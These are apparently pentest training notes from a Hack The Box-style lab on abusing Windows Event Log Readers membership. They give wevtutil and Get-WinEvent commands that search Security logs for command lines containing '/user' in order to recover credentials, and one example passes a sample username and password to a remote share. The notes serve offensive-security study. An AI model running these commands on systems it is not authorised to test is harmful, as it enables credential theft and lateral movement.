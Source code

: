 # Event Log Readers member
```
whoami /groups
```
```
Event Log Readers
```
```
net localgroup "Event Log Readers"
```
## Searching Security Logs
### wevtutil
Searching Security Logs Using wevtutil
```
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"
```
Could display credentials with passwords
We can also specify alternate credentials for wevtutil using the parameters /u and /p.
Passing Credentials to wevtutil
```
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```
### Get-WinEvent
Note: Searching the Security event log with Get-WInEvent requires administrator access or permissions adjusted on the registry key HKLM\System\CurrentControlSet\Services\Eventlog\Security. Membership in just the Event Log Readers group is not sufficient.
Searching Security Logs Using Get-WinEvent
```
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
The cmdlet can also be run as another user with the -Credential parameter